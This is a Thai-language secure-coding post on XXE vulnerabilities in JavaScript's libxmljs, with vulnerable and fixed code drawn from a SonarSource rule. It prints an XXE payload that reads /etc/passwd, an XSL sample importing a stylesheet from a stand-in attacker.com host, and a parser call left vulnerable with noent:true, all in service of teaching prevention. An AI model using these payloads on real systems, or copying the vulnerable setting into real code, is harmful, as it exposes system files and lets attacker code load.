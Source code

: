 # [Code4Sec Week](https://www.facebook.com/hashtag/code4sec) / Day 4 - XML External Entities (XXE) in JavaScript.
[#NEIS0736](https://www.facebook.com/hashtag/neis0736) [#NECS0736](https://www.facebook.com/hashtag/necs0736)

![JavaScript](/images/JS.gif)

## XML parsers should not be vulnerable to XXE attacks

[XML specification](https://www.w3.org/TR/xml/) อนุญาตให้ใช้ entities ที่เป็น [internal](https://www.w3.org/TR/xml/#sec-internal-ent) หรือ [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) ซึ่งอาจนำไปสู่ช่องโหว่เช่น ไฟล์ชั้นความลับถูกเปิดเผย หรือ [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

ตัวอย่างในไฟล์ XML นี้ entity ภายนอกสามารถอ่านไฟล์ /etc/passwd ได้:

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

ในไฟล์ XSL นี้อนุญาตให้เครือข่ายเข้าถึงได้ ซึ่งอาจนำไปสู่ช่องโหว่ SSRF :

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
It is recommended to disable access to external entities and network access in general.
```

**ตัวอย่างที่ไม่ปลอดภัย**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml, { noblanks: true, noent: true, nocdata: true }); // Noncompliant: noent set to true
```

**แนวทางแก้ไขที่ถูกต้อง**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml); // Compliant: noent set to false by default
```

**เพิ่มเติม**

* [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)) - XML External Entities (XXE)
* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
* [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

**แหล่งที่มา**

[<img src="/images/SonarSourceRules.svg" alt="SonarQube" height="50">](https://rules.sonarsource.com/javascript/RSPEC-2755)
